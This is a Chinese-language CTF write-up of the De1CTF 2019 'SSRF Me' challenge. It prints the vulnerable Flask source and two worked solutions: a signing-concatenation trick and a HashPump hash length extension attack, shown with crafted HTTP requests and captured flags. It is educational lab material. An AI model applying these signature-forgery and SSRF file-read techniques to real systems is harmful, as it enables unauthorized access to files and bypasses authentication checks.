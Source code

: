 ```yaml
---
title: buuoj刷题记录4
date: 2019-12-28 21:16:16
tags:
 - web 
 - ctf  
 - buuctf
 - De1CTF
---
```

## [De1CTF 2019]SSRF Me

### 0x00 基础

大致了解flask框架，[CVE-2019-9948](http://www.security-database.com/detail.php?alert=CVE-2019-9948)：`urlopen（）可包含本地文件`，[哈希长度扩展攻击](https://www.freebuf.com/articles/web/31756.html) 。

<!--more-->

### 0x01 分析

题目提示 `flag在./flag.txt中`。

打开链接查看源码，在buuoj的复现过程中，查看源码只拿到一行，需要自己一个一个的敲回车改格式。


```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):  #对secert_key、param、action进行MD5运算  的结果与self.sign作比较
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))  # urllib.unquote 相当与  urldecode
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest() #对secert_key、param、action进行MD5摘要签名

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

分析代码，总共三条路由，`@app.route('/')`显示代码，`@app.route("/geneSign", methods=['GET', 'POST'])`生成签名，`@app.route('/De1ta',methods=['GET','POST'])`获取参数并执行`Exec()`函数

大概思路就是在 /De1ta 中 get param ，cookie action sign 去读取 flag.txt，其中，`param=flag.txt`，`action` 中要含有 `read` 和 `scan`，且 `sign=md5(secert_key + param + action)`

在`getSign`函数中，生成MD5签名的方式是`secert_key + param + action`其中`action=scan`，`secert_key`未知`param`可以控制。

在`@app.route('/De1ta',methods=['GET','POST'])`中，`cookies`中的`action`必须为`readscan`，sign为

`secert_key + param + scan`签名后的md5，使`param=flag.txtread`直接获取到签名后的md5。

### 0x02 开始操作

先获取到签名后的md5

访问`http://35905e74-da20-4673-b384-8c4686fa85c2.node3.buuoj.cn/geneSign?param=flag.txtread`

返回为`0155303824bd0738b4ed0a52b7446c08`


```
GET /De1ta?param=flag.txt HTTP/1.1
Host: 35905e74-da20-4673-b384-8c4686fa85c2.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: action=readscan; sign=0155303824bd0738b4ed0a52b7446c08 
```

结果

`{"code": 200, "data": "flag{04726554-0f9f-47f4-9c1a-114e21e68594}\n"}`

### 0x02 另一种解法

使用hashdump 利用哈希长度扩展攻击，

已知`（secret+flag.txt+scan）=40ad0bf20e771e768e9305810410c1b9`

求`（secret+flag.txt+scanread）`

经过测试密钥是16位 加上scanread是24位。

```
root@kali:/tmp/HashPump# hashpump 
Input Signature: 40ad0bf20e771e768e9305810410c1b9
Input Data: scan   #写上原有数据
Input Key Length: 24    #密钥长度+数据长度+拓展的数据长度
Input Data to Add: read   #拓展的数据
46a6ff04f7bede58de30e93410935976 #生成的MD5
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read 
```

`burp suite`提交的数据

```
GET /De1ta?param=flag.txt HTTP/1.1
Host: 6e84dbce-e560-4f27-86f2-54cb202c45fe.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie:action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read;sign=46a6ff04f7bede58de30e93410935976

```

结果`{"code": 200, "data": "flag{6cd67cbd-fdfb-45cc-8654-52766ef0635a}\n"}`

